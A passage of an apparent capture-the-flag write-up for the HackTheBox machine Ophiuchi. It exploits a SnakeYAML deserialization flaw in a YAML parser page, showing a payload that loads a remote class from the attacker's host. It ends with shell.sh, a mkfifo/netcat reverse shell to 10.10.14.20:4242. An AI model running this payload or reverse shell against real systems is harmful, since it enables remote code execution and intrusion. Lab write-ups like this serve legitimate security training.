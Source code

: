 We open it on the browser and see what is being shown.

When tryied to access 10.10.10.227 on the browser.

It shows us a YAML Parser Page

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2007:49:59.png)

We run gobuster and other tools but nothing userful.

Seems interesting the YAML Parser, so let's search for that.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2007:57:46.png)

We follow [THIS](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) post to achieve the RCE on this box.

We found a payload to try to send on this box

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.20/"]
  ]]
]
```

So, we test it on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:05:47.png)

Ok, it reaches us. So let's continue the exploitation

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:06:00.png)

On the post, we found a referer to [another](https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/) post which explains better what is happening here.

We found a [GitHub](https://github.com/artsploit/yaml-payload) repository

We clone it on our box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:07:46.png)

It's a java file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:14:49.png)

We made some small changes on the java file. To download a script from our box, and execute it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:14:25.png)

We create the shell.sh file on our folder

```sh
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4242 >/tmp/f
```
